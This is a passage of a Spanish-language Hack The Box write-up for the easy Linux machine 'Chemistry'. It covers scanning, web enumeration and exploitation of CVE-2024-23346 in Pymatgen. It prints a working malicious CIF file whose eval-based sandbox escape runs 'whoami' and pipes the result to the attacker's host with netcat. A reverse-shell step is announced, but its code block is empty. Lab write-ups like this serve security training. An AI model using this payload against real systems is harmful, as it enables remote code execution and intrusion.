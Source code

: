 ```yaml
---
description: >-
  Writeup de la máquina de dificultad fácil Chemistry de la página https://hackthebox.eu
title: HTB - Chemistry | (Difficulty Easy) - Linux
date: 2025-03-01
categories: [Writeup, Hack the Box]
tags: [htb, hacking, hack the box, linux, easy, writeup, redteam, pentesting]
image_post: true
image: https://github.com/user-attachments/assets/6e856231-708d-477b-bba9-10d3f2e4e555
---
```


## Useful Skills

* Web enumeration
* Abusing Pymatgen <2024.2.20. Arbitrary Code Execution (CVE-2024-23346)
* 

## Enumeration

### TCP Scan

 ```bash
rustscan -a 10.10.11.38 --ulimit 5000 -g
10.10.11.38 -> [22,5000]
```

```bash
nmap -p22,5000 -sCV 10.10.11.38 -oN tcpScan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-02 14:11 CET
Nmap scan report for 10.10.11.38 (10.10.11.38)
Host is up (0.034s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.9.5)
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
|_http-title: Chemistry - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.87 seconds
```

### UDP Scan

```bash
nmap -sU --top-ports 1500 --min-rate 5000 -n -Pn 10.10.11.38 -oN udpScan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-02 14:12 CET
Nmap scan report for 10.10.11.38
Host is up (0.035s latency).
Not shown: 1495 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
7/udp     closed echo
69/udp    closed tftp
16402/udp closed unknown
31134/udp closed unknown
36108/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
```

### HTTP Enumeration

Whatweb detecta un servidor web Werkzeug/3.0.3 Python/3.9.5

```bash
whatweb http://10.10.11.38:5000
http://10.10.11.38:5000 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.9.5], IP[10.10.11.38], Python[3.9.5], Title[Chemistry - Home], Werkzeug[3.0.3]
```

Accediendo a http://10.10.11.38/ y observo una web que suspuestamente tiene una herramienta que permite cargar un CIF (Archivo de Información Cristalográfica) y analizar los datos estructurales que contiene. Por otra lado tambíen existe la posibilidad de iniciar sesión o registrarse

![image](https://github.com/user-attachments/assets/7beb8c29-106c-4c1d-a9ca-8a98c18fc6c1)

Me registro en la web como un usuario con bajos privilegios

![image](https://github.com/user-attachments/assets/6a5c501d-6a08-4f70-b0e3-dfc59f91272d)

Una vez registrado consigo observar una panel el cual permite la carga de un archivo CIF, también adjuntan para descargar un ejemplo de un archivo CIF

![image](https://github.com/user-attachments/assets/91fc3e0c-2c30-4e9b-bc34-0c4f5012f759)

## Vulnerability analysis

### Arbitrary Code Execution

Una pequeña búsqueda en internet me permite dar con la vulnerabilidad CVE-2024-23346, se trata de una ejecución remota de código a través de la biblioteca Pymatgen, ya que en el método JonesFaithfulTransformation.from_transformation_str()` utiliza de forma insegura la función eval() para procesar la entrada del usuario

* [NVD Explanation CVE-2024-23346](https://nvd.nist.gov/vuln/detail/CVE-2024-23346)

## Exploitation

### Abusing Pymatgen <2024.2.20. Arbitrary Code Execution (CVE-2024-23346)

Encuentro un repositorio de GitHub sobre la vulnerabilidad CVE-2024-23346 el cual me sirve de guía para realizar la explotación y entender como funciona todo.

* [Arbitrary code execution when parsing a maliciously crafted JonesFaithfulTransformation transformation_string](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

![image](https://github.com/user-attachments/assets/f1b5a05a-f7c8-478c-822d-fd765b114217)

Preparo mi archivo malicioso CIF, donde ejecuto un whoami y envío el output con netcat por el puerto 1234, lo cual me servirá para ver con que usuario ganaré acceso al sistema

```bash
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("whoami | nc 10.10.14.23 1234");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Inicio un listener con netcat por el puerto 1234 para obtener la respuesta 

```bash
nc -lvnp 1234
listening on [any] 1234 ...
```

Subo el archivo malicioso evil.cif y hago clic sobre View, obtengo que el usuario con el que ganaré acceso al sistema es el usuario app

![image](https://github.com/user-attachments/assets/2ff8532f-2b03-41ea-aa96-875c0276c1f4)

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.11.38] 39934
app
```

Preparo de nuevo mi archivo malicioso CIF, donde envío una reverse shell hacia mi máquina para ganar acceso al sistema como el usuario app

```bash

```
